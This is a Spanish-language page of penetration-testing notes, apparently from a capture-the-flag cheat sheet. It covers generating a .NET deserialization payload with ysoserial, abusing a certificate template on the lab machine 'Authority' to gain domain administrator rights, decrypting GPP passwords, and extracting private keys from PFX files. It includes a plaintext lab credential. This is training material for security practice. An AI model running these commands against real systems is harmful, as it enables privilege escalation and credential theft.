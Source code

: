 Aquí se encuentran otras cosas interesantes que encuentro en máquinas pero que no se dónde categorizarlas en otros archivos.

## Ysoserial

Podemos usar la herramienta [ysoserial](https://github.com/pwntester/ysoserial.net/releases/tag/v1.35) para generar comandos que se ejecutarán en base64:

```powershell
.\ysoserial.exe -g WindowsIdentity -f BinaryFormatter -o base64 -c "whoami"
```

## Certificados

No sé como contemplar esto en otro archivo así que lo pongo aquí aparte, esto es de la máquina `Authority`:

```shell
impacket-addcomputer  authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name COMPUTER$ -computer-pass 'Password123!'

certipy req -u 'COMPUTER$' -p 'Password123!' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222

certipy cert -pfx administrator_authority.pfx -nokey -out user.crt
certipy cert -pfx administrator_authority.pfx -nocert -out user.key

python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain authority.htb -dc-ip 10.10.11.222

add_user_to_group svc_ldap Administrators
```

## GPP Keys

En caso de tener una clave GPP podemos desencriptarla ya que Microsoft publicó el método de encriptación:

```shell
gpp-decrypt <CLAVE_GPP>
```

## Extraer clave privada y certificado de un archivo PFX

```shell
openssl pkcs12 -in <PFX_FILE> -nocerts -out priv-key.pem -nodes
```

Esto te pedirá una contraseña; si no la sabes es cosa de usar `pfx2john` y crackear el hash.
Ahora necesitamos conseguir el certificado:

```shell
openssl pkcs12 -in <PFX_FILE> -nokeys -out certificate.pem
```
